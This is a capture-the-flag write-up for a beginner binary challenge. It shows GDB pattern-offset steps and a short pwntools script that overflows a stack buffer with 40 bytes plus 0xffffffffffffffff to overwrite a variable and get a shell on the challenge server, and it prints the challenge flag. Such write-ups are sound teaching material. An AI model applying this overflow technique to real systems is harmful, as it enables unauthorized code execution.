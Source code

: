 # beginner-generic-pwn-number-0

<p align="center">
    <kbd><img src="images/pwn0-1.png" caption="Challenge" /></kbd><br/>
</p>

From the source code, I understand that I need to modify the value of inspirational_message_index to -1 (0xffffffff) in order to spawn a shell.

<p align="center">
    <kbd><img src="images/pwn0-2.png" caption="Challenge" /></kbd><br/>
</p>

The program compares `rbp-0x8` with 0xffffffffffffffff

<p align="center">
    <kbd><img src="images/pwn0-3.png" caption="Challenge" /></kbd><br/>
</p>

To start, perform fuzzing <br />
`$ pattern_create 48` <br />
<p align="center">
    <kbd><img src="images/pwn0-4.png" caption="Challenge" /></kbd><br/>
</p>

View registers <br />
`$ info registers` <br />
<p align="center">
    <kbd><img src="images/pwn0-5.png" caption="Challenge" /></kbd><br/>
</p>

Print the value stored on `rdp-0x8` <br />
`$ p *0x7fffffffdfc8`
<p align="center">
    <kbd><img src="images/pwn0-6.png" caption="Challenge" /></kbd><br/>
</p>

`$ pattern_offset 0x41304141` <br />
<p align="center">
    <kbd><img src="images/pwn0-7.png" caption="Challenge" /></kbd><br/>
</p>

So, I need to spray 40 random characters and then provide 0xffffffffffffffff to modify the value of inspirational_message_index variable.

I created a script to perform our exploit.

```
from pwn import *

input = "A"*40 + "\xff\xff\xff\xff\xff\xff\xff\xff"


p = remote("mc.ax", 31199) 
#p = process("./beginner-generic-pwn-number-0")
p.recvuntil("cheer me up")
p.sendline(input)
p.interactive()
```

Run the exploit <br />
`$ python3 exploit.py` <br />
<p align="center">
    <kbd><img src="images/pwn0-8.png" caption="Challenge" /></kbd><br/>
</p>

Flag: `flag{im-feeling-a-lot-better-but-rob-still-doesnt-pay-me}`